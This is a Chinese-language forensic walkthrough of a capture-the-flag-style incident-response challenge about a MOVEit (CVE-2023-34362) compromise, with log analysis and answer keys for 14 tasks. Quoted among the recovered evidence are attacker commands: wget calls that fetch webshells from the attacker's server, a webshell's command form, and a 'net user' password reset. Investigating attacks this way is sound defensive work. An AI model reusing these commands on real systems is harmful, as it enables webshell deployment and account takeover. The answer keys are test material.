



# i-like-to

:::info Sherlock Scenario

We have unfortunately been hiding under a rock and did not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artifacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here...

不幸的是，我们一直躲在岩石下面，没有看到很多新闻文章提及最近在野外利用的 MOVEit CVE。我们认为我们的 Windows 服务器可能存在漏洞，并且最近遭受了此漏洞的攻击。我们需要更详细地了解此漏洞，并确认攻击者的行为并检索一些详细信息，以便我们可以将它们实施到我们的 SOC 环境中。我们为您提供了来自我们受损 Windows 服务器的所有必要工件的分诊。PS：其中一件工件是内存转储，但我们忘记包含 vmss 文件。您可能必须回到这里讨论基本知识...

:::

## 题目数据

:::note

由于附件过大，故在此不提供下载链接

:::

## First of all

根据题目中所提到的 `MOVEit CVE` 信息，定位到 `CVE-2023-34362`

### 附件解压

首先，先将附件解压后，得到

```plaintext
D:.
    I-like-to-27a787c5.vmem
    Triage.zip
```

将 `Triage.zip` 解压后，得到目录树（经过 URL Decode）

```plaintext
D:.
├─results
└─uploads
    ├─auto
    │  ├─\\.\C:
    │  │  └─Windows
    │  │      └─System32
    │  │          └─LogFiles
    │  │              └─WMI
    │  │                  └─RtBackup
    │  └─C:
    │      ├─$Recycle.Bin
    │      │  └─S-1-5-21-4088429403-1159899800-2753317549-500
    │      ├─inetpub
    │      │  └─logs
    │      │      ├─FailedReqLogFiles
    │      │      └─LogFiles
    │      │          └─W3SVC2
    │      ├─MOVEitTransfer
    │      │  └─Logs
    │      ├─ProgramData
    │      │  └─Microsoft
    │      │      ├─Windows
    │      │      │  └─Start Menu
    │      │      │      └─Programs
    │      │      └─Windows Defender
    │      │          └─Support
    │      ├─Users
    │      │  ├─.NET v4.5
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  └─Microsoft
    │      │  │      │      └─Windows
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              └─Internet Explorer
    │      │  │                  └─Quick Launch
    │      │  ├─.NET v4.5 Classic
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  └─Microsoft
    │      │  │      │      └─Windows
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              └─Internet Explorer
    │      │  │                  └─Quick Launch
    │      │  ├─Administrator
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  ├─ConnectedDevicesPlatform
    │      │  │      │  │  └─L.Administrator
    │      │  │      │  └─Microsoft
    │      │  │      │      ├─Internet Explorer
    │      │  │      │      │  ├─CacheStorage
    │      │  │      │      │  ├─DomainSuggestions
    │      │  │      │      │  ├─EmieSiteList
    │      │  │      │      │  ├─EmieUserList
    │      │  │      │      │  ├─IECompatData
    │      │  │      │      │  ├─IEFlipAheadCache
    │      │  │      │      │  ├─imagestore
    │      │  │      │      │  │  └─zxjua2i
    │      │  │      │      │  ├─Recovery
    │      │  │      │      │  │  └─High
    │      │  │      │      │  │      └─Last Active
    │      │  │      │      │  ├─Tiles
    │      │  │      │      │  │  └─pin-314712940
    │      │  │      │      │  └─VersionManager
    │      │  │      │      └─Windows
    │      │  │      │          ├─Explorer
    │      │  │      │          ├─History
    │      │  │      │          │  └─History.IE5
    │      │  │      │          │      └─MSHist012023061320230614
    │      │  │      │          ├─IEDownloadHistory
    │      │  │      │          ├─INetCookies
    │      │  │      │          │  ├─DNTException
    │      │  │      │          │  └─ESE
    │      │  │      │          └─WebCache
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              ├─Internet Explorer
    │      │  │              │  └─Quick Launch
    │      │  │              │      └─User Pinned
    │      │  │              │          └─TaskBar
    │      │  │              ├─Protect
    │      │  │              │  └─S-1-5-21-4088429403-1159899800-2753317549-500
    │      │  │              └─Windows
    │      │  │                  ├─PowerShell
    │      │  │                  │  └─PSReadLine
    │      │  │                  └─Recent
    │      │  │                      ├─AutomaticDestinations
    │      │  │                      └─CustomDestinations
    │      │  ├─Default
    │      │  │  └─AppData
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              └─Internet Explorer
    │      │  │                  └─Quick Launch
    │      │  ├─dfir
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  ├─ConnectedDevicesPlatform
    │      │  │      │  │  └─L.dfir
    │      │  │      │  └─Microsoft
    │      │  │      │      ├─Internet Explorer
    │      │  │      │      │  ├─CacheStorage
    │      │  │      │      │  ├─EmieSiteList
    │      │  │      │      │  ├─EmieUserList
    │      │  │      │      │  ├─IECompatData
    │      │  │      │      │  ├─imagestore
    │      │  │      │      │  │  └─lq16xzq
    │      │  │      │      │  └─Recovery
    │      │  │      │      │      └─Last Active
    │      │  │      │      └─Windows
    │      │  │      │          ├─Explorer
    │      │  │      │          ├─History
    │      │  │      │          │  ├─History.IE5
    │      │  │      │          │  │  └─MSHist012023061320230614
    │      │  │      │          │  └─Low
    │      │  │      │          │      └─History.IE5
    │      │  │      │          ├─IEDownloadHistory
    │      │  │      │          ├─INetCookies
    │      │  │      │          │  ├─DNTException
    │      │  │      │          │  ├─ESE
    │      │  │      │          │  └─Low
    │      │  │      │          │      └─ESE
    │      │  │      │          └─WebCache
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              ├─Internet Explorer
    │      │  │              │  └─Quick Launch
    │      │  │              │      └─User Pinned
    │      │  │              │          └─TaskBar
    │      │  │              ├─Protect
    │      │  │              │  └─S-1-5-21-4088429403-1159899800-2753317549-1007
    │      │  │              └─Windows
    │      │  │                  └─Recent
    │      │  │                      ├─AutomaticDestinations
    │      │  │                      └─CustomDestinations
    │      │  ├─moveitsvc
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  └─Microsoft
    │      │  │      │      └─Windows
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              ├─Internet Explorer
    │      │  │              │  └─Quick Launch
    │      │  │              └─Protect
    │      │  │                  └─S-1-5-21-4088429403-1159899800-2753317549-1000
    │      │  └─moveitsvc.WIN-LR8T2EF8VHM.002
    │      │      └─AppData
    │      │          ├─Local
    │      │          │  ├─ConnectedDevicesPlatform
    │      │          │  │  └─L.moveitsvc
    │      │          │  └─Microsoft
    │      │          │      ├─Internet Explorer
    │      │          │      │  ├─CacheStorage
    │      │          │      │  └─IECompatData
    │      │          │      └─Windows
    │      │          │          ├─Explorer
    │      │          │          ├─History
    │      │          │          │  └─History.IE5
    │      │          │          └─WebCache
    │      │          └─Roaming
    │      │              └─Microsoft
    │      │                  ├─Internet Explorer
    │      │                  │  └─Quick Launch
    │      │                  │      └─User Pinned
    │      │                  │          └─TaskBar
    │      │                  ├─Protect
    │      │                  │  └─S-1-5-21-4088429403-1159899800-2753317549-1006
    │      │                  └─Windows
    │      │                      ├─PowerShell
    │      │                      │  └─PSReadLine
    │      │                      └─Recent
    │      │                          ├─AutomaticDestinations
    │      │                          └─CustomDestinations
    │      └─Windows
    │          ├─appcompat
    │          │  └─Programs
    │          ├─INF
    │          ├─ServiceProfiles
    │          │  ├─LocalService
    │          │  └─NetworkService
    │          │      └─AppData
    │          │          └─Local
    │          │              └─Microsoft
    │          │                  └─Windows
    │          │                      └─DeliveryOptimization
    │          │                          └─Logs
    │          ├─System32
    │          │  ├─config
    │          │  │  └─RegBack
    │          │  ├─LogFiles
    │          │  │  └─Sum
    │          │  ├─sru
    │          │  ├─Tasks
    │          │  │  └─Microsoft
    │          │  │      └─Windows
    │          │  │          ├─.NET Framework
    │          │  │          ├─Active Directory Rights Management Services Client
    │          │  │          ├─AppID
    │          │  │          ├─Application Experience
    │          │  │          ├─ApplicationData
    │          │  │          ├─AppxDeploymentClient
    │          │  │          ├─Autochk
    │          │  │          ├─BitLocker
    │          │  │          ├─Bluetooth
    │          │  │          ├─BrokerInfrastructure
    │          │  │          ├─CertificateServicesClient
    │          │  │          ├─Chkdsk
    │          │  │          ├─Clip
    │          │  │          ├─CloudExperienceHost
    │          │  │          ├─Customer Experience Improvement Program
    │          │  │          ├─Data Integrity Scan
    │          │  │          ├─Defrag
    │          │  │          ├─Device Information
    │          │  │          ├─Device Setup
    │          │  │          ├─Diagnosis
    │          │  │          ├─DirectX
    │          │  │          ├─DiskCleanup
    │          │  │          ├─DiskDiagnostic
    │          │  │          ├─DiskFootprint
    │          │  │          ├─EDP
    │          │  │          ├─ExploitGuard
    │          │  │          ├─File Classification Infrastructure
    │          │  │          ├─Flighting
    │          │  │          │  ├─FeatureConfig
    │          │  │          │  └─OneSettings
    │          │  │          ├─InstallService
    │          │  │          ├─LanguageComponentsInstaller
    │          │  │          ├─License Manager
    │          │  │          ├─Location
    │          │  │          ├─Maintenance
    │          │  │          ├─Maps
    │          │  │          ├─MemoryDiagnostic
    │          │  │          ├─Mobile Broadband Accounts
    │          │  │          ├─MUI
    │          │  │          ├─Multimedia
    │          │  │          ├─NetTrace
    │          │  │          ├─Network Controller
    │          │  │          ├─Offline Files
    │          │  │          ├─PI
    │          │  │          ├─PLA
    │          │  │          ├─Plug and Play
    │          │  │          ├─Power Efficiency Diagnostics
    │          │  │          ├─PushToInstall
    │          │  │          ├─Ras
    │          │  │          ├─RecoveryEnvironment
    │          │  │          ├─Registry
    │          │  │          ├─Server Manager
    │          │  │          ├─Servicing
    │          │  │          ├─SharedPC
    │          │  │          ├─Shell
    │          │  │          ├─Software Inventory Logging
    │          │  │          ├─SoftwareProtectionPlatform
    │          │  │          ├─SpacePort
    │          │  │          ├─Speech
    │          │  │          ├─Storage Tiers Management
    │          │  │          ├─Task Manager
    │          │  │          ├─TextServicesFramework
    │          │  │          ├─Time Synchronization
    │          │  │          ├─Time Zone
    │          │  │          ├─TPM
    │          │  │          ├─UpdateOrchestrator
    │          │  │          ├─UPnP
    │          │  │          ├─User Profile Service
    │          │  │          ├─WaaSMedic
    │          │  │          ├─WDI
    │          │  │          ├─Windows Defender
    │          │  │          ├─Windows Error Reporting
    │          │  │          ├─Windows Filtering Platform
    │          │  │          ├─Windows Media Sharing
    │          │  │          ├─WindowsColorSystem
    │          │  │          ├─WindowsUpdate
    │          │  │          ├─Wininet
    │          │  │          └─Workplace Join
    │          │  ├─wbem
    │          │  │  └─Repository
    │          │  ├─WDI
    │          │  │  └─LogFiles
    │          │  └─winevt
    │          │      └─Logs
    │          ├─Tasks
    │          └─Temp
    └─ntfs
        └─\\.\C:
            └─$Extend
                └─$RmMetadata
                    └─$TxfLog
```

很明显为 Windows 的日志文件

### 内存镜像加载

由于只有 `I-like-to-27a787c5.vmem` 文件，没有 `vmss` 文件，导致无法使用 `Volatility` 对内存镜像进行解析，但是仍然可以通过 `strings` 和 `R-Studio` 程序对内存镜像进行解析


### MFT 数据解析

使用 `MFTExplorer` 读取 `\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT` 文件


可以还原出来 NTFS 文件系统的结构数据

同时，使用 `MFTECmd`+`TimelineExplorer` 进行时间线分析

```shell
PS D:\_Tools\_ForensicAnalyzer\MFTECmd> .\MFTECmd.exe -f D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT --csv D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\
MFTECmd version 1.2.2.1

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/MFTECmd

Command line: -f D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT --csv ./out.csv

Warning: Administrator privileges not found!

File type: Mft

Processed D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\MFT in 4.5830 seconds

D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT: FILE records found: 318,161 (Free records: 214,500) File size: 520.2MB
Path to ./out.csv doesn't exist. Creating...
        CSV output will be saved to D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\20240322151222_MFTECmd_$MFT_Output.csv
```

对得到的 `20240322151222_MFTECmd_$MFT_Output.csv` 文件，使用 `TimelineExplorer` 进行加载



### HTTP 日志

HTTP 日志文件位于 `\Triage\uploads\auto\C%3A\inetpub\logs\LogFiles\W3SVC2\u_ex230712.log`

## Task 1

> 攻击者上传的 ASPX webshell 的名称是什么？

在 `\Triage\uploads\auto\C%3A\inetpub\logs\LogFiles\W3SVC2\u_ex230712.log` 中，对 HTTP 请求进行排查时，将所有请求的 User-Agent 提取出来

```python
with open("./u_ex230712.log", "r") as f:
    logs = [i.split("") for i in f.read().split("\n") if i.startswith("2023-07-12")]
for i in logs:
    while "-" in i:
        i.remove("-")
user_agent = []

for i in logs:
    if i[7] in user_agent:
        continue
    else:
        user_agent.append(i[7])

print("\n".join(user_agent))
```

得到

```plaintext
Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)
AnyConnect+Darwin_i386+3.1.05160
Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0
Ruby
CWinInetHTTPClient
Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10_15_7)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/114.0.0.0+Safari/537.36
```

在其中注意到 `Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)` 和 `Ruby` 两个 User-Agent 值，很明显为 `Nmap` 和 `Metasploit` 的 User-Agent

结合 Nmap 和 Metasploit 两款工具的特征，可以定位这两个 User-Agent 就是攻击源。并且还存在一个可疑的 User-Agent`CWinInetHTTPClient`

将这三个 User-Agnet 的请求进行提取

```python
with open("./u_ex230712.log", "r") as f:
    logs = [i.split("") for i in f.read().split("\n") if i.startswith("2023-07-12")]
for i in logs:
    while "-" in i:
        i.remove("-")

user_agent = ["Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)", "Ruby", "CWinInetHTTPClient"]

res = []

for i in logs:
    if i[7] in user_agent:
        if [i[4], i[7]] in res:
            continue
        else:
            res.append([i[4], i[7]])
for i in res:
    print(i)
```

得到

```plaintext
['/', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/nmaplowercheck1689156596', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/robots.txt', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/evox/about', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/HNAP1', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/sdk', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/.git/HEAD', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/favicon.ico', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/', 'Ruby']
['/machine2.aspx', 'CWinInetHTTPClient']
['/guestaccess.aspx', 'Ruby']
['/api/v1/token', 'Ruby']
['/api/v1/folders', 'Ruby']
['/api/v1/files/974134622', 'Ruby']
['/api/v1/files/974134892', 'Ruby']
['/api/v1/files/974274452', 'Ruby']
['/api/v1/files/974155582', 'Ruby']
['/api/v1/files/974355270', 'Ruby']
['/api/v1/files/974331243', 'Ruby']
['/api/v1/files/974387947', 'Ruby']
['/api/v1/files/974247918', 'Ruby']
```

结合 `CVE-2023-34362` 漏洞的利用信息，可以发现攻击流量 `['/machine2.aspx', 'CWinInetHTTPClient']`

同时在后续的流量中，定位到以下记录

```plaintext
2023-07-12 11:24:43 10.10.0.25 GET /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 200 0 0 1179
2023-07-12 11:24:47 10.10.0.25 POST /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 https://moveit.htb/move.aspx 200 0 0 159
```

文件名很符合答案掩码，同时 aspx 符合 webshell 的部署常用格式，并且这个 filename 并非 `MOVEit` 服务的一部分

在 `TimelineExplorer` 中查找这个文件


```plaintext title="Answer"
move.aspx
```

## Task 2

> 攻击者的 IP 地址是什么？

上一题中 `move.aspx` 文件，在内存中进行查找

```shell
Randark@DESKTOP-7HGIVVS MINGW64 /d/Downloads/iliketo
$ strings I-like-to-27a787c5.vmem | grep "move.aspx"
http://10.255.254.3:9001/move.aspx
http://10.255.254.3:9001/move.aspx
[33mhttp://10.255.254.3:9001/move.aspx
wget http://10.255.254.3:9001/move.aspx -OutFil
c:\MOVEitTransfer\wwwroot\move.aspx
c:\moveittransfer\wwwroot\move.aspx
......
```

对其中的特征点进一步筛选，并加上 `-A` 和 `-B` 参数查看上下 20 行的内容

或者使用 `R-Studio` 进行分析


得到 `move.aspx` 文件的内容

```html
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body>
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwULLTE2MjA0MDg4ODhkZNVOZ3tV2TCTi+hEkha/q+A+5xP6tvrMtJaEupnndGLi" />

<input type="hidden" name="__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR" value="678AED88" />
<input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION" value="/wEdAANhi3zf7ocw6tYhjdSr5BwWitssAmaVIY7AayhB9duwcnk2JDuMxrvKtMBUSvskgfEkJOF+BOsGxdOjAd7jGUjGbwkQ2wl4sKonDxvg+iiKWg==" />
<input name="txtArg" type="text" value="whoami" id="txtArg" style="width:250px;Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" />
<input type="submit" name="testing" value="excute" id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" />
<span id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px">Command:</span>
</form>
</body>
</HTML>
```

```plaintext title="Answer"
10.255.254.3
```

## Task 3

> 最初的攻击使用的是什么用户代理？

上面就有

```plaintext title="Answer"
Ruby
```

## Task 4

> 攻击者上传 ASPX webshell 的时间是什么时候？

在 `TimelineExplorer` 的结果中，筛选 `move.aspx` 文件的创建时间即可



```plaintext title="Answer"
12/07/2023 11:24:30
```

## Task 5

> 攻击者上传了一个不起作用的 ASP webshell，它的文件大小是多少（以字节为单位）？

在 `TimelineExplorer` 中，筛选 `.\MOVEitTransfer\wwwroot` 路径下的记录


定位到这个文件 `moveit.asp`


```plaintext title="Answer"
1362
```

## Task 6

> 攻击者最初用来枚举易受攻击服务器的工具是什么？

在初步分析中的 User-Agent 中有

```plaintext title="Answer"
nmap
```

## Task 7

> 我们怀疑攻击者可能更改了我们服务帐户的密码。请确认发生此情况的时间（UTC）

定位到 `User` 文件夹



可以定位到服务账户的名称 `moveitsvc`

在内存中查找相关字符串，结合更改密码时常用 `net user` 指令，使用多关键词进行定位

```shell
┌──(randark ㉿ kali)-[~]
└─$ strings I-like-to-27a787c5.vmem | grep moveitsvc | grep net
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
1C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Internet Explorer.lnk
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Internet Explorer.lnk
\\?\C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Accessories\Internet Explorer.lnk
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Internet Explorer.lnk
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Internet Explorer.lnk
net user "moveitsvc" 5trongP4ssw0rd
```

可以定位到 `net user "moveitsvc" 5trongP4ssw0rd`

进而分析 `"\iliketo\Triage\Triage\uploads\auto\C%3A\Windows\System32\winevt\Logs\Security.evtx` 日志文件

已知重置用户密码的事件 id 为 `4724`


```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
  <EventID>4724</EventID>
  <Version>0</Version>
  <Level>0</Level>
  <Task>13824</Task>
  <Opcode>0</Opcode>
  <Keywords>0x8020000000000000</Keywords>
  <TimeCreated SystemTime="2023-07-12T11:09:27.8648235Z" />
  <EventRecordID>60772</EventRecordID>
  <Correlation ActivityID="{c2cb8fb7-9dd8-0001-2d90-cbc2d89dd901}" />
  <Execution ProcessID="652" ThreadID="8052" />
  <Channel>Security</Channel>
  <Computer>mover</Computer>
  <Security />
  </System>
- <EventData>
  <Data Name="TargetUserName">moveitsvc</Data>
  <Data Name="TargetDomainName">MOVER</Data>
  <Data Name="TargetSid">S-1-5-21-4088429403-1159899800-2753317549-1006</Data>
  <Data Name="SubjectUserSid">S-1-5-21-4088429403-1159899800-2753317549-1006</Data>
  <Data Name="SubjectUserName">moveitsvc</Data>
  <Data Name="SubjectDomainName">MOVER</Data>
  <Data Name="SubjectLogonId">0x8d5ab</Data>
  </EventData>
  </Event>
```

```plaintext title="Answer"
12/07/2023 11:09:27
```

## Task 8

> 攻击者使用哪种协议远程进入受感染的计算机？


```plaintext title="Answer"
RDP
```

## Task 9

> 请确认攻击者远程访问受感染计算机的日期和时间？

上一题中有

```plaintext title="Answer"
12/07/2023 11:11:18
```

## Task 10

> 攻击者用于访问 webshell 的用户代理是什么?

在 `\iliketo\Triage\Triage\uploads\auto\C%3A\inetpub\logs\LogFiles\W3SVC2\u_ex230712.log` 中有

```plaintext
2023-07-12 11:19:46 10.10.0.25 GET /moveit.asp - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 404 3 50 36
2023-07-12 11:20:37 10.10.0.25 GET /moveit.asp - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 404 3 50 35
```

```plaintext title="Answer"
Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0
```

## Task 11

> 攻击者的 inst ID 是什么？

重建数据库，在数据库中即可查到


```plaintext title="Answer"
1234
```

## Task 12

> 攻击者运行了什么命令来检索 webshell？

在 Powershell 的历史记录文件 `"\Triage\Triage\uploads\auto\C%3A\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` 中可以得到

```plaintext
cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

```plaintext title="Answer"
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

## Task 13

>TA 部署的 webshell 的标题头中的字符串是什么？

Task 2 中有

```plaintext title="Answer"
awen asp.net webshell
```

## Task 14

>TA 将我们的 moveitsvc 帐户密码更改为什么？

Task 7 中有

```plaintext title="Answer"
5trongP4ssw0rd
```
